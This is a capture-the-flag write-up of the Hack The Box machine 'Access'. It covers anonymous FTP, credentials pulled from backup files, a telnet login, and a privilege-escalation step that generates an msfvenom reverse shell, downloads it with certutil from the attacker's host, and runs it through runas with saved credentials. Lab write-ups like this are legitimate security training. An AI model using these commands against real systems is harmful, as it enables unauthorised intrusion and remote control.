







# HTB - Access

#### Ip: 10.10.10.98
#### Name: Access
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.98
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-12 14:13 CDT
Nmap scan report for 10.10.10.98
Host is up (0.068s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

Looks like just a few ports open, which is somewhat rare for Windows machines. Lets dig in further and use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ sudo nmap -sC -sV -T4 10.10.10.98 -p 21,23,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-12 14:17 CDT
Nmap scan report for 10.10.10.98
Host is up (0.066s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Taking a look at the site on port 80, we find just a static page with a picture of a server room.



Nmap caught that we could access FTP anonymously, so lets try that before digging further into http:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ ftp 10.10.10.98  
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:ryan): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
 18% |**************                                                                  |  1024 KiB    0.99 MiB/s    00:04 ETAftp: Reading from network: Interrupted system call
  0% |                                                                                |    -1        0.00 KiB/s    --:-- ETA
550 The specified network name is no longer available. 
WARNING! 517 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
ftp> cd ..
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Engineer
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |********************************************************************************| 10870       34.39 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 45 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
10870 bytes received in 00:00 (34.35 KiB/s)
ftp> bye
221 Goodbye.
```

Cool, I was able to grab two files from FTP. Lets checkout backup.mdb first. The .mdb file is a Microsoft DataBase file, I think firstly I'll just try running the `strings` command against it to see if I can find anything juicy that way:

`strings backup.mdb`



So looks like maybe a few usernames/ roles, and maybe passwords? lets add these to a list called strings.txt:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ cat >> strings.txt                               
jim
administrator
backup_admin
engineer
access4u@security
admin
```

Lets go back and take a look at the Access Control.zip file. Trying to open it up we see it is password protected. 



Trying access4u@security found in the other file works and we can access the file.

After unpacking it with `readpst` I can find a note from user John:

```text
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.                                                                                          

Regards,

John
```

Nice, looks like we may have some working credentials `security:4Cc3ssC0ntr0ller`

Because there are so few ports open on this box, looks like we may need to try telnet first:

```text
┌──(ryan㉿kali)-[~/HTB/Access]
└─$ telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security

C:\Users\security>hostname
ACCESS
```

Cool, we're on the box! Lets grab the user.txt flag:



### Privilege Escalation

After poking around for awhile and not seeing much, I thought I'd see if there were any passwords cached in memory using `cmdkey /list`:



Nice! We should be able to escalate privileges from here using RunAs.

First, lets go ahead and use msfvenom to create a reverse shell:

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.22 LPORT=443 -a x64 -f exe > shell.exe
```

Next, we'll start a Python HTTP server using `python -m http.server 80` and then use certutil to download our file onto the target:

```text
certutil -urlcache -split -f "http://10.10.14.22/shell.exe" 
```
Once the reverse shell is on the target we can start up a netcat listener `nc -lnvp 443` and run:

```text
runas /savecred /user:ACCESS\Administrator shell.exe
```

If everything has gone to plan we should catch a shell back as access\administrator.



All that's left to do now is grab that root.txt flag:



Thanks for following along!

-Ryan

--------------------------------------------------------------------------------
